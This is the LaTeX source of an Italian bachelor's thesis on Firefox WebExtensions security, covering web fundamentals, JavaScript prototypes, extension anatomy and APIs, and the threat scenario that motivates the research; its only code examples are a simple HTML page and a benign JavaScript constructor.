\documentclass{sapthesis}
\usepackage{graphicx}
\usepackage{xcolor}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{todonotes}
\usepackage[backend=biber,texencoding=utf8,bibencoding=utf8]{biblatex}


\graphicspath{{img/}}
\addbibresource{Tesi.bib}


\title{Firefox WebExtensions security infrastructure}
\author{Francesco Pasquali}
\IDnumber{1933764}
\course{Laurea triennale in Ingegneria Informatica}
\courseorganizer{Sapienza Università degli studi di Roma}
\AcademicYear{2020/2021}
\advisor{Prof. Emilio Coppa}
\authoremail{pasquali.1933764@studenti.uniroma1.it}
\copyyear{2024}
\thesistype{Tesi triennale}


%% DEFINIZIONI


\newcommand{\MComment}[3]{\textcolor{#3}{ \textbf{#1} \textit{#2}}}
\newcommand{\Nota}[1]{\MComment{Nota:}{#1}{olive}}
\newcommand{\Assert}[1]{\MComment{Assert:}{#1}{red}}

    % Formattazione
\newcommand{\bold}[1]{\textbf{#1}}
\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\file}[1]{\code{#1}}
\newcommand{\method}[1]{\code{.#1()}}
\newcommand{\property}[1]{\code{.#1}}
\newcommand{\attr}[1]{\code{.#1}}
\newcommand{\refSection}[1]{Sezione~\ref{#1}}
\newcommand{\refChapter}[1]{Capitolo~\ref{#1}}
\newcommand{\refCode}[1]{Listato~\ref{#1}}
\newcommand{\Sezione}[1]{Sezione~\ref{#1}}
\newcommand{\Capitolo}[1]{Capitolo~\ref{#1}}
\newcommand{\Listato}[1]{\refCode{#1}}


    % Utility
\newcommand{\vuln}{\textit{"vuln"}}
\newcommand{\www}{World Wide Web}
\newcommand{\JS}{Javascript}
\newcommand{\JSON}{JSON}
\newcommand{\json}{JSON}
    % Estensioni
\newcommand{\manifest}{\code{manifest.json}}
    % Browser
\newcommand{\idl}{\code{idl}}
\newcommand{\ipdl}{\code{ipdl}}
\newcommand{\AddonManager}{\code{AddonManager}}
\newcommand{\ExtensionProcessScript}{\code{ExtensionProcessScript}}
\newcommand{\WebExtensionPolicy}{\code{WebExtensionPolicy}}
\newcommand{\ContentSecurityPolicy}{\code{ContentSecurityPolicy}}
    % Html
\newcommand{\tagHTML}[1]{\code{<#1>}}
\newcommand{\img}{\tagHTML{img}}
\newcommand{\meta}{\tagHTML{meta}}
\newcommand{\script}{\tagHTML{script}}
\newcommand{\iframe}{\tagHTML{iframe}}


\definecolor{codegreen}{rgb}{0,0.6,0}
\lstdefinestyle{mystyle}{ 
    commentstyle=\color{codegreen},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}
\lstset{style=mystyle}

%% END DEFINIZIONI

%% ARTICOLO
\begin{document}

%% FRONTE
\maketitle
\tableofcontents
\newpage

%% CONTENUTO

\mainmatter
\chapter{Introduzione}
\label{cap:introduzione}

    In un mondo sempre piu connesso, la necessità di interagire con risorse di tipo diverso
    indipendentemente dal sistema operativo sottostante ha portato un genere di applicazione
    a diventare fondamentale nella vita quotidiana di tutti, i Web Browser. Si tratta di
    programmi volti a rendere accessibili i servizi del web ad una vasta gamma di utenti
    e supportare le nuove tecnologie di sviluppo che si affacciano sulla scena con il
    progredire degli standard. Tra queste, le estensioni browser hanno giocato un ruolo
    importante nella storia del web, spingendo l'evoluzione del \www{} e delle sue misure
    di sicurezza ed affermando la loro posizione come parte integrata nell'ecosistema browser 
    ed integrante dell'esperienza utente.\\
    Dal punto di vista di un attaccante, i browser sono programmi che permettono di eseguire
    codice arbitrario direttamente sulla macchina dell'utente.
    Seppur soggetto a molte restrizioni, la natura cross-platform del codice e la semplicità
    nel suo ottenimento rendono il browser un bersaglio di grande interesse per un attaccante,
    aprendo alla possibilità di compromettere un vasto numero di dispositivi.\\
    In questa partita le estensioni potrebbero giocare un ruolo importante; infatti quello delle estensioni è 
    codice scritto da terze parti ed eseguito in ambienti che godono di funzionalità e privilegi
    normalmente non accessibili agli script delle pagine web. Il prezzo pagato dall'estensione
    arriva sottoforma di misure di sicurezza piu restrittive rispetto alle altre finestre, ma
    proprio per questo uno sviluppatore ignaro o poco attento alle corrette pratiche di
    programmazione potrebbe finire per introdurre vulnerabilità in un ambiente più delicato
    degli altri.\\
    La mia tesi vuole approfondire le politiche di sicurezza che i browser
    applicano sull'ambiente d'esecuzione delle estensioni e si pone la domanda se queste da sole
    siano sufficienti a proteggere il sistema da eventuali attacchi o se debbano essere affiancate
    da uno sforzo del programmatore ad attuare pratiche di programmazione piu rigorose dal punto
    di vista della sicurezza. In particolare ho studiato in che modo il browser Firefox
    protegga le proprie estensioni dai comuni vettori d'attacco delle pagine web e come cerchi
    di proteggersi in caso di una compromissione riuscita.\\
    Ritengo che il contributo della mia tesi sia utile per appronfondire il tema degli attacchi
    nella \textit{extension-land}, ovverro attacchi mirati a sfruttare le tecnologie delle estensioni
    al fine di compromettere il sistema informatico della vittima, in relazione a minacce
    provenienti dalle pagine web visitate dall'utente invece che dall'extension-land stessa. 
    Buona parte della letteratura che ho trovato si è occupata del problema di scalare i
    privilegi quando l'attaccante si trova gia nella \textit{extension-land}, oppure il problema di mascheramento
    delle attività di una estensione malevola. Molto poco è stato pubblicato sull'interazione tra
    il moderno sistema di estensioni e i contenuti provenienti dal web.\\
    Questo articolo si apre con il \refChapter{cap:concetti-fondamentali} per introdurre ai
    concetti fondamentali per la comprensione dei contenuti che seguiranno, anche il \refChapter{cap:scenario-e-ambiente}
    è introduttivo e descrive brevemente l'ambiente di sperimentazione in cui si sono svolti i test
    riportati durante tutto l'articolo.\\ 
    I nuovi contenuti incominciano a partire dal \refChapter{cap:infrastruttura-sicurezza-firefox}
    dove viene discussa l'infrastruttura di sicurezza dietro al browser Firefox, mentre il \refChapter{cap:webextension-dettaglio}
    va a far luce sui dettagli implementativi del WebExtension Framework e sulla sua integrazione
    in Gecko (il web-engine alla base di Firefox).\\
    I due capitoli successivi trattano il lato sperimentale della tesi, iniziando dal \refChapter{cap:analisi-vuln} con la descrizione
    approfondita dell'estensione fantoccio \vuln{} che ha costituito il principale ambiente 
    di prova nella mia ricerca, seguendo con il \refChapter{cap:attaccando-vuln} in cui applico
    le conoscenze acquisite per analizzare sul campo il rischi introdotti da una estensione vulnerabile
    nel sistema del browser.\\
    Infine nel \refChapter{cap:conclusioni} tiro le somme dei risultati ottenuti ed esprimo
    considerazioni riguardo i nuovi dati ed eventuali sviluppi della ricerca.


\chapter{Concetti fondamentali}
\label{cap:concetti-fondamentali}
    Il capitolo fa un excursus su definizioni ed elementi utili per la comprensione dei capitoli che seguiranno,
    nella \Sezione{sec:I-linguaggi-fondamentali-del-www} si introducono i tre linguaggi fondamentali del web, HTML5,
    CSS e Javascript, al quale dedico la sezione \Sezione{sec:javascript}, mentre la \refSection{sec:dom} parlerà del DOM,
    il modello che rende possibile la comunicazione tra questi linguaggi. CSS verrà soltanto menzionato poiché non ha
    avuto particolare rilievo nella mia ricerca. Seguono tre sezioni dedicate alle estensioni browser, \Sezione{breve_storia_delle_estensioni}
    è un rapido riassunto sulla storia delle estensioni
    mentre \Sezione{sec:anatomia_di_una_web_extension} e \refSection{sec:webextension-api} presentano gli elementi e
    i concetti fondamentali di programmazione in ambiente WebExtension.


    \section{I linguaggi fondamentali del \www{}}
    \label{sec:I-linguaggi-fondamentali-del-www}
        Un Web Browser è un'applicazione capace di richiedere e visualizzare risorse ottenute dalla rete
        all'interno di una finestra.
        Ad oggi un browser deve necessariamente essere in grado di interpretare questi tre tipi di risorsa 
        per rendere il \www fruibile all'utente: documenti HTML5, fogli di stile CSS e script Javascript;
        tutti e tre sono living standards, cioè standard che modificano e aggiornano di anno in anno le
        proprie specifiche.
        HTML5 è un linguaggio di markup che descrive la struttura di una pagina web. Gli elementi della 
        pagina sono rappresentati da tag HTML che talvolta modificano i metadati, la visualizzazione e 
        il comportamento del documento; per esempio il contenuto del tag \script{} può essere interpretato 
        come codice Javascript ed eseguito al volo dal browser, ma lo stesso tag \script{} può anche importare
        uno script da un URL o file sorgente.
        Il frammento di codice nel Listato~\ref{code:esempio-html} è un esempio di utilizzo del linguaggio HTML5, in queste
        righe viene creato un documento che mostra a schermo la scritta "Archive:" ed include tre altre risorse:
        il tag \code{<link>} include e applica alla pagina il foglio di stile \code{page.css} mentre i due tag
        \script{} caricano ed eseguono due script Javascript.
        %In Firefox accanto ad HTML5 è presente un altro linguaggio di markup chiamato XUL usato per la UI del browser stesso.

        \begin{lstlisting}[label={code:esempio-html},caption={Un semplice documento html},captionpos=b,language=HTML]
        <!doctype html>
        <html>
            <head>
                <meta charset="utf-8" />
                <link rel="stylesheet" href="page.css" />
                <script src="../shared/archive.js"></script>
                <script defer src="sbMain.js"></script>
            </head>
            <body>
                <p>Archive:</p><br/>
                <section id="output"></section>
            </body>
        </html>
        \end{lstlisting}

    
    \section{Javascript}
    \label{sec:javascript}
        \JS{} è il linguaggio principe della programmazione web lato frontend. Apparso per la
        prima volta nel 1995 in grembo a Netscape, la sua diffusione ha segnato l'inizio di un \www{}
        orientato alle applicazioni; ad oggi è usato in numerosi contesti diversi oltre alle pagine web,
        come server in Nodejs o reti neurali in Tensorflow, parti del browser stesso sono programmate
        con \JS{}. 
        È un linguaggio ad oggetti debolmente tipizzato che supporta la programmazione ad eventi, 
        funzionale, imperativa e la programmazione ad oggetti basata su prototipi \cite{javascript-introduction}.
        Rispetto ad altri linguaggi fortemente orientati alla programmazione oggettuale come Java, in \JS{}
        gli oggetti si comportano come dizionari, il loro insieme di proprietà può venire espanso, ridotto e 
        modificato a runtime. Tra le proprietà di un oggetto alcune sono rilevanti ai fini del linguaggio:
        \begin{itemize}
            \item \bold{\method{valueOf}} Una funzione che ritorna il "valore" di un oggetto, viene invocata
                    silenziosamente dall'interprete quando l'oggetto è sottoposto ad operazioni logico/matematiche;

            \item \bold{\method{toString}} Una funzione che ritorna la rappresentazione dell'oggetto
                    sottoforma di stringa.

            \item \bold{\attr{\_\_proto\_\_}} È un oggetto che contiene i metodi e gli attributi ereditati, 
                    definisce un \attr{\_\_proto\_\_} a sua volta contenente metodi e attributi della super-super classe 
                    e coì via ricorsivamente. Quando si referenzia la proprietà di un oggetto dapprima la si cerca
                    nell'oggetto stesso e se non viene trovata allora si esplorano ricorsivamente gli oggetti che
                    formano la catena di \attr{\_\_proto\_\_} fino al \attr{\_\_proto\_\_} della classe
                    base \code{Object}. È importante sottolineare che il sistema della catena di prototipi non è
                    legato al tipo di oggetto che \attr{\_\_proto\_\_} referenzia, ma dalla sola presenza della chiave 
                    \textit{\_\_proto\_\_} nell'oggetto esplorato e poiché si tratta di una proprietà come le altre
                    è molto facile ridefinirlo.

            \item \bold{\attr{prototype}} Usando la terminologia della programmazione ad oggetti, il \attr{prototype}
                    di una classe contiene i metodi e gli attributi che verranno ereditati da ogni istanza della classe.
                    In realtà in \JS{} le classi non esistono ma al loro posto ci sono i costruttori, funzioni che creano,
                    inizializzano e ritornano un oggetto che diremo "istanza" del costruttore. Il valore dell'attributo \attr{\_\_proto\_\_}
                    dell'istanza, ovvero l'oggetto prototipale, è un riferimento al \attr{prototype} del costruttore.
            
            \item \bold{\method{constructor}} È il riferimento alla funzione costruttrice dell'oggetto, questa proprietà
                    si trova nel prototipo di un oggetto e viene solitamente usata per verificare l'appartenenza ad una
                    "classe" di oggetti.
        \end{itemize}
        Il listato \ref{code:esempio-javascript-prototype} è un esempio variegato dei concetti introdotti.
        Questo script dichiara un costruttore \code{Letter()} che assegna alle proprie istanze l'attributo \attr{number},
        inoltre tutte le istanze di \code{Letter} ereditano il metodo \method{getNumber}, assegnato al prototipo del costruttore.
        Infine si assegnano alle variabili \code{a},\code{b} e \code{z} tre diverse istanze di \code{Letter}.
        La Figura \ref{fig:javascript-prototype} illustra gli oggetti discussi e i vari riferimenti ai prototipi, \code{Function.prototype}
        è il prototipo per tutti gli oggetti funzione mentre \code{Object.prototype} è il prototipo base di tutti gli oggetti.

        \begin{lstlisting} [
            label={code:esempio-javascript-prototype},
            caption={Frammento di script, viene definito il costruttore \code{Letter} e lo si utilizza per creare tre oggetti },
            captionpos=b
        ]
        function Letter(number) {
            this.number = number;
        }
        
        Letter.prototype.getNumber = function() {
            return this.number;
        };
        
        let a = new Letter(1);
        let b = new Letter(2);
        let z = new Letter(26);
        \end{lstlisting}
        
        \begin{figure}[ht]
            \centering                                                  
            
\includegraphics[width=0.5\textwidth]{javascript-constructor.png}
            \caption{Grafico dei riferimenti ai prototipi del \refCode{code:esempio-javascript-prototype}. L'immagine è stata presa dall'articolo "Javascript. The Core" di  Dmitry Soshnikov \cite{javascript-core}}
            \label{fig:javascript-prototype}  
        \end{figure}

    \section{DOM}
    \label{sec:dom}
        Il DOM è la rappresentazione di un documento HTML sottoforma di oggetti \JS \cite{dom-introduction}. 
        Attraverso l'interfaccia offerta dal DOM è possibile modificare programmaticamente gli elementi presenti
        nel documento; tra gli oggetti dichiarati nel DOM \code{document} rappresenta il documento vero e proprio
        mentre \code{window} rappresenta la finestra di visualizzaione che contiene il documento.
        \code{window} ricopre un ruolo molto importante nella programmazione web, esso è l'oggetto globale 
        di tutti gli script eseguiti sulla pagina, ovvero un oggetto che ospita le variabili tra le
        sue proprietà, oltre agli oggetti built-in.

    \section{Browsing Context}
    \label{sec:browsing-context}
        In Firefox il Browsing Context è rappresenta un ambiente di visualizzazione di un documento,
        per esempio ogni tab del browser è un Browsing Context, ma anche un \iframe{} è un Browsing Context
        figlio del Browsing Context della finestra.
        Oltre a ciò, il Browsing Context si occupa di molte funzionalità relative al documento che sta
        "visualizzando" (ho usato impropriamente il verbo visualizzare poiché non è direttamente responsabile
        della parte grafica), come la gestione delle sessioni attive, la gestione della cronologia, la navigazione
        e il loop degli eventi lanciati sul suo documento. La comunicazione tra contesti è molto limitata, un oggetto \JS{}
        residente in un Browsing Context può accedere solo ad oggetti residenti in altri contesti con cui condivide
        l'origine, l'interazione tra oggetti provenienti da diverse origini viene impedita
        ( come indicato dalla Same-Origin Policy di cui si discuterà nella \refSection{sec:sicurezza-script-same-origin-policy} ).
        La comunicazione tra contesti ad origine diversa resta comunque possibile attraverso sistemi di
        serializzazione e trasmissione dati, forniti sempre dal Browsing Context.

    \section{Breve storia delle estensioni}
    \label{breve_storia_delle_estensioni}
    %\todo{attacchi agli applet}
        Le estensioni browser non sono una novità. Già a partire dal 1995 Internet Explorer
        supportava lo sviluppo di plugin \cite{extension-history} affinché visualizzassero contenuti
        dinamici in un World Wide Web fatto di documenti statici, ma è a partire dal 1999 che
        il browser diventa programmabile quando Internet Explorer 4 iniziò a supportare la modifica
        dell'interfaccia utente. Il 2005 vede la nascita di Firefox e l'arrivo degli UserScript,
        piccoli script per la modifica delle pagine web installabili nel browser (precursori dei
        WebExtension Content Script approfonditi nelle prosime sezioni).
        Lo sviluppo di estensioni cross-browser fu per molto tempo una sfida, non c'era uno standard
        comune e ogni browser esponeva questa o quella funzionalità in piu rispetto agli altri; quando
        uscii, Google Chrome non era da meno, ma negli anni la sua ampia diffusione impose lo standard
        de-facto sulla scena; cercando di rimanere al passo con i tempi, Firefox si modificò per
        supportare le estensioni di Google Chrome introducendo il WebExtension framework nel 2017.
        Nonostante le differenze, ad oggi i browser stanno convergendo verso lo stesso formato di estensioni,
        non solo Firefox ma anche Opera e Safari si sono adattati allo standard e sviluppare addon
        cross-browser è diventato possibile.

    \section{Anatomia di una Web Extension }
    \label{sec:anatomia_di_una_web_extension}
        Una estensione è un insieme di script, fogli di stile e documenti html raccolti in una cartella o
        archivio compresso ottenibile dallo store del browser o dai file locali. L'installazione di una
        estensione può essere:
        \begin{itemize}
            \item \bold{built-in}, pre-installata nel browser per migliorare la User Experience
                    o integrare funzionalità utili all'applicazione, l'estensione WebCompat è un esempio;
                    si tratta di una estensione built-in Firefox usata per introdurre fix di compatibilità
                    dopo il rilascio di una nuova versione del browser.

            \item \bold{temporanea}, rimane operativa fintanto che il browser è in esecuzione, ma dovrà essere
                    reinstallata ad ogni avviamento dell'applicazione.

            \item \bold{persistente}, persiste al riavvio dell'applicazione e viene riattivata ad ogni
                    esecuzione del browser.
        \end{itemize}
        
        In ogni estensione che faccia uso del WebExtension framework deve essere presente il file \manifest{} contenente 
        un oggetto \code{JSON}. Le proprietà dell'oggetto \manifest{} dichiarano i metadati dell'addon (come nome, 
        versione e descrizione) e le risorse che verranno eventualmente utilizzate.
        Il \manifest{} può contenere riferimenti a file di altro tipo che modificheranno il comportamento e l'aspetto
        dell'applicazione e si suddividono in:
        \begin{itemize}
            \item \bold{Background}: Sono file che rispondo a eventi del browser, vengono chiamati di background 
                    perché sono eseguiti in modo silenzioso e operano con le componenti interne dell'applicazione.
                    Questi script non possono accedere direttamente alle pagine web.

            \item \bold{Sidebar, popup e option page}: Sono delle interfacce utente introdotte dall'estensione che
                    vengono visualizzate sullo schermo in modo più o meno permanente. Le \textit{sidebar} appaiono sul lato
                    della finestra e rimangono visibili fino alla chiusura manuale da parte dell'utente, i \textit{popup} sono
                    piccole interfacce grafiche disegnate alla pressione di un bottone sulla toolbar o sulla addressbar.
                    La \textit{option-page} è mostrata quando l'utente accede alla pagina di modifica delle preferenze
                    dell'estensione.

            \item \bold{Content script}: Sono script usati per accedere e manipolare le finestre delle pagine web. Si
                    potrebbe dire che sono la controparte UI dei \textit{background} script ma a differenza di questi
                    ultimi non possono interagire con le componenti interne del browser. I \textit{content script} 
                    vengono eseguiti solo sulle pagine che rispettano i criteri di origine specificati nel \manifest{}.
                    A differenza delle pagine web i \textit{content script} possono effettuare richieste cross-domain e
                    usare un piccolo sottoinsieme del WebExtension API.

            \item \bold{Web accessible resources}: Sono risorse di qualsiasi tipo rese accessibili agli altri script
                    dell'estensione.

        \end{itemize}

        La figura \ref{fig:manifest-content} illustra quali file possono essere referenziati per i vari elementi descritti sopra.

        \begin{figure}[ht]
            \centering                                                  
            
\includegraphics[width=0.5\textwidth]{webextension-manifest-content}
            \caption{Tipi di file referrenziabili dal \manifest }
            \label{fig:manifest-content}                             
        \end{figure}

    \section{Il WebExtension API}
    \label{sec:webextension-api}
        Ogni script \JS{} può fare uso di funzioni e oggetti messi a disposizione dall'ambiente in cui sta venendo
        eseguito, poiché ogni script ha diverse necessità, l'accesso a queste risorse può venire consentito o negato
        a seconda di quanto il sistema consideri rischioso esporre l'API ad un uso scorretto. Uno script di background
        deve necessariamente poter agire sugli eventi riguardanti il browser nel suo insieme, ma non si può dire lo
        stesso di uno script eseguito in una pagina web, interessato soltanto agli eventi in atto sul suo documento;
        non a caso l'ambiente di esecuzione di background permette di modificare il comportamento del
        browser ma non permette di navigare verso altri URL e specularmente l'ambiente delle pagine web può
        richiedere un sottoinsieme di URI ma non ha alcun accesso agli API del browser.\\
        Il WebExtension framework include nei suoi ambienti l'oggetto \code{browser} (e li suo alias \code{chrome}),
        esso raccoglie un insieme di api utili alle le estensioni e normalmente non accessibili dalle pagine web;
        quali siano questi API dipende dal tipo di script eseguito e dalla voce \code{"permissions"} del \manifest{}.
        Tra gli api troviamo: \attr{runtime} permette di ottenere informazioni riguardo l'ambiente di 
        esecuzione e offre funzioni di messaging, \attr{storage} mette a disposizione spazi di archiviazione privati
        o condivisi con le altre estensioni, \attr{extension} fornisce utilities relative all'estensione; oltre a
        a questi voglio menzionare alcuni API notevoli come: \attr{webRequest} permette di manipolare le richieste HTTP, 
        \attr{cookies} garantisce accesso ai cookie gestiti dal browser, \attr{downloads}
        abilita l'estensione ad interagire con il download manager. \\
        La lista completa degli API può essere trovata nella documentazione ufficiale mozilla \cite{browser-webextension-api}.
    

\chapter{Scenario e ambiente sperimentale}
\label{cap:scenario-e-ambiente}
    Il capitolo descrive i presupposti che hanno guidato la sperimentazione e l'ambiente
    informatico in cui si è svolta. La \Sezione{sec:specifiche-e-piattaforma} è una rapida descrizione
    del sistema informatico usato durante il corso delle ricerche e dell'installazione
    Firefox utilizzata mentre la \Sezione{sec:threat-scenario} illustra il modello di minaccia
    considerato. Infine la \Sezione{sec:estensione-vuln} introduce all'estensione fantoccio 
    bersagliata dagli attacchi, verrà approfondita nel \Capitolo{cap:attaccando-vuln}.

    \section{Specifiche applicazione e piattaforma}
    \label{sec:specifiche-e-piattaforma}
        Per la mia ricerca ho svolto i test utilizzando l'ultima versione corrente di
        Mozilla Firefox v122.0 installata su MacOS Monterey v12.5 con processore Apple M1.
        Il codice sorgente studiato è stato scaricato dalla repository github ufficiale di mozilla,
        commit b59eed0; ogni menzione contenuta in questo articolo è relativa allo stato del codice
        risalente al suddetto commit \cite{mozilla-gecko-dev}. 
        L'applicazione è stata compilata seguendo le istruzioni riportate sul sito ufficiale di mozilla \cite{mozilla-build-firefox}.

    \section{Scenario}
    \label{sec:threat-scenario}
        Per indirizzare la mia ricerca ho deciso di lavorare entro i limiti di uno scenario
        che potesse modellizzare una situazione d'attacco reale in modo quanto più generale e vero-simile.
        Ho definito due attori interessati nella scena, un attaccante e una vittima, e due sistemi
        informatici coinvolti appartenenti a l'uno e l'altro attore.
        L'attaccante è interessato a compromettere il sistema informatico della vittima come parte di 
        una catena di attacco. Il suo obbiettivo è ottenere esecuzione di codice Javascript arbitrario
        al difuori della sandbox in cui il browser Firefox costringe gli script provenienti dal web.
